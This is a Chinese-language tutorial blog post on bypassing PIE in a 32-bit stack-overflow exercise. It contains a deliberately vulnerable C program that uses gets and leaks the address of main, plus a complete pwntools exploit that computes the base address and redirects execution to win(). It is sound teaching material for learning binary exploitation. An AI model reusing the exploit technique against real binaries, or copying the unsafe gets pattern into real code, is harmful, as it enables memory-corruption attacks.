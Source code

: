 ```yaml
---
title: '利用已泄漏信息绕过 PIE'
date: '2023-08-22'
lastmod: '2023-08-22'
tags: ['PWN', 'Stack']
draft: false
summary: '32-bit 与 64-bit 之间的差异'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 源码

<Download name="pie-32.zip" href="/static/assets/pie-32.zip" type="Binary" />

```c:source.c showLineNumbers
#include <stdio.h>

int main() {
  vuln();

  return 0;
}

void vuln() {
  char buffer[20];

  printf("Main Function is at: %lx\n", main);

  gets(buffer);
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

程序输出 `main` 的地址，我们可以通过它来计算出基地址。然后我们可以利用这个基地址计算出 `win()` 的地址。

## 0x02 分析

让我们运行该脚本以确保它是正确的 :D

```
$ ./vuln-32
Main Function is at: 0x5655f1b9
```

正如我们所期望的，它打印了 `main` 的地址。

## 0x03 利用

首先，让我们设置脚本。创建一个 `ELF` 对象（稍后会变得非常有用），然后启动该进程。

```python showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

现在我们要获取 `main` 函数的地址。为此，我们可以简单地接收它，然后读取。

```python showLineNumbers
p.recvuntil('at: ')
main = int(p.recvline(), 16)
```

<Note>
  由于我们接收了除地址之外的整行，因此只有地址才会出现在 `p.recvline()` 中。
</Note>

现在我们将使用之前创建的 `ELF` 对象并设置它的基地址。`sym` 存储的是函数的相对偏移量，我们只要用绝对地址减去相对偏移就可以得到基地址。

*设置基地址前 `sym` 字典中存储的是各函数的相对偏移量；设置基地址之后，`sym` 会变为存储各函数的绝对地址。*

```python showLineNumbers
elf.address = main - elf.sym['main']
```

在这个例子中，`elf.sym['main']` 将返回 `0x11b9`；如果我们设置基地址后再次运行它，它将返回 `0x11b9 + 基地址` 的值。本质上，我们是从泄漏的地址中减去 `main` 的偏移量，以获得二进制文件的基地址。

现在我们有了可以调用 `win()` 的基本信息，我们可以调用 `win()` 了：

```python showLineNumbers
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

p.interactive()
```

<Note>
  我假设你知道如何找到溢出 Padding 以及其他内容，因此我不会向你展示其中的每一步具体该怎么做，希望你能通过自己的能力解决它们。

  如果你不知道该怎么办，请先去看我之前写的文章，好好思考每一步为什么这样做，相信会有所帮助。
</Note>

```
$ python exp.py
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process 'vuln-32': pid 147342
PIE bypassed! Great job :D
```

### 1x01 最终 Exploit

```python {title="exp.py"} showLineNumbers
from pwn import *

# context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('at: ')
main = int(p.recvline(), 16)

elf.address = main - elf.sym['main']

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

p.interactive()
```

## 0x04 总结

通过泄漏的 `main` 地址，我们能够计算出二进制文件的基地址。由此我们可以计算出 `win` 的地址并调用它。

## 0x05 64-bit

自己尝试一下 64-bit 的版本该怎么绕过。

<Download name="pie-64.zip" href="/static/assets/pie-64.zip" type="Binary" />

